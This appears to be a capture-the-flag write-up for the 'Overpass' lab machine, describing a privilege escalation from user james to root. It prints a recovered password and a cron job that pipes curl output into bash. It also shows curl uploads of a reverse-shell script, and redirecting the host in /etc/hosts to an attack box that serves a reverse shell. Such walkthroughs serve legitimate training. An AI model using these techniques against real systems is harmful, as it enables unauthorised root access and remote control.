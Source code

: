 - Using [this](https://www.dcode.fr/rot-47-cipher) tool, I've deciphered the stored information in the `.overpass` file

```
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

- The name indicates that this might be the `root` password, so I'll have a try with `sudo`.

- I had to luck, but by reading the `todo.txt` file one more time, I got it: `Write down my password somewhere on a sticky note so that I don't forget it.`. So `saydrawnlyingpicture` is actually `james password`

**NOTE**: the same password could've been grabbed by running `/usr/bin/overpass` with `option 4 : Retrieve All Passwords `

- Upon further lookup on the system, I've noticed that there's a job in the `/etc/crontab` that pulls the `buildscript.sh` from `overpass.thm`.

- `overpass.thm` is just `127.0.0.1` in `/etc/hosts` file.

```
james@overpass-prod:/etc$ cat /etc/crontab

* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash

james@overpass-prod:/etc$ cat /etc/hosts

127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
```

- I think I've overthinked this a little, but I tried:

	- writing to `/etc/crontab` file.
	
	- **HERE it came to my mind that I could just edit the /etc/hosts file to point to my attack box and let cron just take the modified file from my box but i've checked the permissions with ls -l and the file was under root so I believed I don't have permissions to write to it. BIG MISTAKE.**

	- So I've continued:

	- Remember this was a go server? I've found the server files in `/usr/local/go`, but couldn't find where the files from downloads are.

	- - downloading the `buildscript.sh` from `ip/downloads/src/` on my attack box.

		- modify the content to a reverse shell and upload it to `ip/downloads/src` using `curl -X POST -F "file=@/home/madalinux/buildscript.sh" http://10.10.189.227/downloads/src`

	- downloading the `buildscript.sh` on the target host, saving it to `/home/james`, modify it to a reverse shell and trying the same `curl` command, but replacing the `ip` with `overpass.thm`

	- Finished a university course.

	- I tried to replace my own ip in `/etc/hosts` file just because I was out of ideas. And it worked :) 

- On my attack box, I've created `/downloads/src` folders and placed the `buildscript.sh` executable file inside. (containing a reverse shell).

- Started a python webserver using `python3 -m http.server 80` and started a listener on the chosen port.

- After a short while, I had a revere shell under root on the victim machine. 

- The final flag is in `/root/root.txt`.


